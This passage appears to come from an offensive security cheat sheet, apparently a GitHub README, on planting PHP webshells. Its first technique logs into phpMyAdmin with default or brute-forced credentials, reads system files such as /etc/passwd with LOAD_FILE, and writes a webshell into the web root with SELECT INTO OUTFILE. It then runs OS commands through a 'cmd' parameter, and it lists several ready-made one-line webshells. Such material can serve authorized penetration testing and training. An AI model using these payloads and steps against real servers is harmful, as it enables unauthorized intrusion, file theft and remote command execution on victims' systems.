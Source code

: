 - Technique 8 - ...

#### III. List of common paths for the DocumentRoot directory (Web root directory) [LINK](#III-List-of-common-paths-for-the-DocumentRoot-directory-Web-root-directory)
#### IV. Usefull Github links for Webshells [LINK](#IV-Usefull-Github-links-for-Webshells)
#### V. Quickly set up a test environment using Docker [LINK](#V-Quickly-set-up-a-test-environment-using-Docker)

-----------------

### I. Classic Webshell upload techniques
#### Technique 1. Webshell upload using a PHPMYADMIN Web console
```
➤ Step 1. Log into the PHPMyAdmin Web console by exploiting the presence of default or easy guessable credentials,
	   anonymous access or by performing a brute-force or dictionnary password attack using Burp proxy
           - URL: http://x.x.x.x/phpmyadmin or http://x.x.x.x/website-name/phpmyadmin)
           - Default or weak credentials: root:root, root and empty password
	  
➤ Step 2. Find or guess the Web server installation path (DocumenRoot) Web root folder (e.g., it can be found thanks to "http://x.x.x.x/<path>/phpinfo.php").
           - Example for Windows - XAMP = 'C:\XAMPP\htdocs\' or 'C:\XAMPP\htdocs\<website-name>\'
           - Example for Linux   - LAMP = '/var/www/' or '/var/www/https/<website-name>/wp-content/uploads/', etc ... 
  
➤ Step 3. In the PHPMyAdmin Web console,  go to the SQL query browser then:
           - Type and execute the following SQL query to display OS files (it depends of the right of the account running the PHPMyAdmin console)
             + Linux server   - "SELECT LOAD_FILE('/etc/passwd');"
             + Windows server - "SELECT LOAD_FILE('C:\Windows\system.ini');"
           - Type and execute the following SQL query to write a PHP Webshell in the Web root folder
             + Linux server   - "select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/b<website-name>/wp-content/uploads/Webshell.php";"
             + Windows server - "select "< ? $c = $_GET['cmd']; $op = shell_exec($c); echo $op ? >" into outfile "C:\\XAMPP\\htdocs\\<website-name>\\Webshell.php";"

➤ Step 4. Access to the 'Webshell.php' file with your web browser and execute OS commands
           Examples:
           - http://x.x.x.x/<website-name>/wp-content/uploads/Webshell.php?cmd=whoami
           - http://x.x.x.x/<website-name>/Webshell.php?cmd=whoami

Note: Several PHP functions can be used in a webshell to execute OS commands
           Examples:
           + shell_exec() function: <?php echo shell_exec($_GET['cmd']); ?>
           + system() function: <?php system($_GET['cmd']); ?>
           + passthru() function: <?php echo passthru($_GET['cmd']); ?>
           + exec() function: <?php echo exec($_POST['cmd']); ?>
```
